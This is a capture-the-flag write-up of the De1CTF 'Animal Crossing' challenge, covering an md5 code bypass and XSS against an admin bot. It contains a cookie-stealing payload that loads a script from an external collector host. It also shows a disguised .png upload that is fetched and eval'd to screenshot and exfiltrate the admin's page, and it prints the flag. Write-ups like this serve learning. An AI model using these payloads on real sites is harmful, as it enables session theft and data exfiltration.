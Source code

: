 The good thing (in this context, bad for others) about md5 is that it's a one-way hashing but there is no salting to the code value, it's just the hash. Therefore, a string put through md5 would always return the same md5 encoding. So I just needed to randomly generate a string, md5 it, then check the digest against the random one.

Well great, I have succesfully done so and reported my passport to an admin. With this extra step of generating a valid code, the rest of Animal Crossing is a general XSS attack. 

We want to report a URL that will grab the admin cookie when a user checks out our URL, and sends it to the server(You can use pastebin, XSSHunter, webhook.site, etc). Part of my payload looks like this:

```
data=base64DATAXXXXXXX'javascript:eval('var a=document.createElement(\'script\');a.src=\'https://ServerHere.xss.ht\';document.body.appendChild(a)')
```

And we retrieve the cookie, which has the flag:

``FLAG=De1CTF{I_l1k4_``

But this is just one half of the flag. Where's the other half? 

Eventually, De1CTF released a hint: "what is the admin doing?" 

Looking at the document shows hundreds of png images, of what looks like other people's passports. I guess, the other half of the flag is among them. But the hint got me thinking - obviously, the admin would have to be leafing through the screenshots but its not like the flag will just magically turn up in one of the images cause they forgot to hide their flag text file out of view. So unless I can control the screenshot, I doubt I'll be able to find the flag. 

The library '[html2canvas](https://html2canvas.hertzen.com/)' comes to mind - taking screenshots with javascript. If I pass a payload to the admin that takes a screenshot of their interface, will the flag be there?

The idea here is to upload some code using html2canvas. If we give it a .png extension the server won't complain, after which you can fetch your image back, whatever you called it, and evaluate it so it takes the screenshot and you can download it. Your code should import the html2canvas library, take a screenshot, then upload that screenshot to the server for you to fetch and download.

```js
fetch(`/static/images/WhateverYouNamedYourFile.png`).then(resp=>resp.text()).then(flag=>eval((flag) || '0 + 0'));

//0+0 check is my way of checking errors. If the fetch response evals to a 0 I did something wrong.
```

I create this and report it to the admin. When the admin visits the URL with the javascript payload (not shown here), it will take a screenshot of the admin's interface and send it back to me. I get the address and download it for the other half of the flag:

``cool_GamE}``

So the full flag would be: ``FLAG=De1CTF{I_l1k4_cool_GamE}``


This was definitely a challenge that stretched my capabilities of XSS attacks past grabbing cookies and pretending to be admin. The 2nd half of taking a screenshot of the admin's interface was unique and certainly not something I would've thought of immediately. All in all, I'm glad I participated in DE1CTF despite the difficulty levels of the problems I faced!

Jam


---

References
----
Feature Image by Sara Kurfeß on Unsplash